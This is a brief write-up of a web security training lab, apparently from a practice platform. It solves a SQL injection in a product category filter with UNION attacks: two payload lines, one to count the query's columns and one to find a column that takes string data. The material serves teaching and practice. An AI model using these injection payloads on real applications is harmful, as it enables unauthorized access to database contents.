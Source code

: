 
## Description:

this lab contains a SQL injection vulnerability in the product category filter, it is possible to use a UNION attack to retrieve data from other tables

to construct this attack it is first necessary to determine the number of columns returned by the query, the next step is to identify a column that is compatible with string data

the lab will provide a random value that must be returned to solve the lab

## Solution:

	' UNION SELECT NULL,NULL,NULL-- \\ determining the number of columns returned

	' UNION SELECT NULL,'43TjdH',NULL-- \\ retrieving the string after identifying (by trial and error) that the second column is compatible with string data

